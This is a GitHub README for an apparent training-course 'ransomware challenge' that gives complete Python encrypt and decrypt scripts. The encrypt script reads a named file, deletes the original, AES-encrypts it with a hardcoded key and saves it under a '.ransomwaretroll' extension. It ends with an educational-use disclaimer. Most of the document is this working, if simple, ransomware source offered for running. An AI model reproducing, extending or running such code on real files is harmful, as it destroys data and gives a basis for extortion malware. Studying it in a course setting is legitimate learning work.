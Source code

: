 
#DIO Platform Ransomware Challenge Repository
This repository is created to store the DIO Platform Ransomware Challenge, showcasing a simple implementation of ransomware encryption and decryption using Python.

Description
The challenge demonstrates a basic ransomware script written in Python using the pyaes library for encryption and decryption. It encrypts a specified file with a hardcoded key and saves the encrypted data in a new file with a '.ransomwaretroll' extension. The decryption script reverses this process, decrypting the encrypted file and restoring it to its original state.

Usage
Encryption
To encrypt a file, run the encrypt.py script with the following command:

bash
Copy code
python encrypt.py
Replace "teste.txt" with the name of the file you want to encrypt.

Decryption
To decrypt a file encrypted by the ransomware, run the decrypt.py script with the following command:

bash
Copy code
python decrypt.py
Replace "teste.txt.ransomwaretroll" with the name of the encrypted file you want to decrypt.

Code
Encryption Script (encrypt.py)
python
Copy code
import os
import pyaes

# Open the file to be encrypted
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remove the original file
os.remove(file_name)

# Encryption key
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Encrypt the file
crypto_data = aes.encrypt(file_data)

# Save the encrypted file
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
Decryption Script (decrypt.py)
python
Copy code
import os
import pyaes

file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remove the encrypted file
os.remove(file_name)

# Decryption key
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypted_data = aes.decrypt(file_data)

# Save the decrypted file
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypted_data)
new_file.close()
Disclaimer
This code is for educational purposes only. Ransomware activities are illegal and unethical. Please use this knowledge responsibly and refrain from engaging in any malicious activities.
